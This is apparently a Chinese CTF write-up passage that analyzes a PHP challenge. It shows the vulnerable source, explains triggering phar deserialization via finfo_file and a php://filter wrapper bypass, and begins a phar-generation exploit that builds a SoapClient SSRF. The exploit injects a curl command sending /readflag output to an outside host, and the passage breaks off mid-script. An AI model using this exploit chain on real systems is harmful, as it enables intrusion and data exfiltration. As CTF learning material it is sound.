 ```php
    function __wakeup(){
        $class = new ReflectionClass($this->func);
        $a = $class->newInstanceArgs($this->file_name);
        $a->check();
    }
    
    function getMIME(){
        $finfo = finfo_open(FILEINFO_MIME_TYPE);
        $this->type = finfo_file($finfo, $this->file_name);
        finfo_close($finfo);
    }

    function __toString(){
        return $this->type;
    }

}

class Check{

    public $file_name;

    function __construct($file_name){
        $this->file_name = $file_name;
    }

    function check(){
        $data = file_get_contents($this->file_name);
        if (mb_strpos($data, "<?") !== FALSE) {
            die("&lt;? in contents!");  //不能包含<?
        }
    }
}
```

[关于MME类型文件](https://www.w3school.com.cn/media/media_mimeref.asp)   上传的文件要绕过Check::check()

finfo_file会触发phar的反序列化[参考文章1](https://paper.seebug.org/680/)     [参考文章2](https://xz.aliyun.com/t/2958)

传入成功后url

phar://开头被正则过滤，可以使用

```
php://php://filter/resource=phar://
```

生成phar文件

```php
<?php
class File {
    public $file_name = "";
    public $func = "SoapClient";

    function __construct(){
        $target = "http://127.0.0.1/admin.php";
        $post_string = 'admin=1&cmd=curl --referer "`/readflag`" --insecure "http://xss.buuoj.cn/index.php?do=api%26id=dzWPkK"&clazz=SplStack&func1=push&func2=push&func3=push&arg1=123456&arg2=123456&arg3='. "\r\n";
        $headers = [];
        $this->file_name  = [
            null,
            array('location' => $target,
```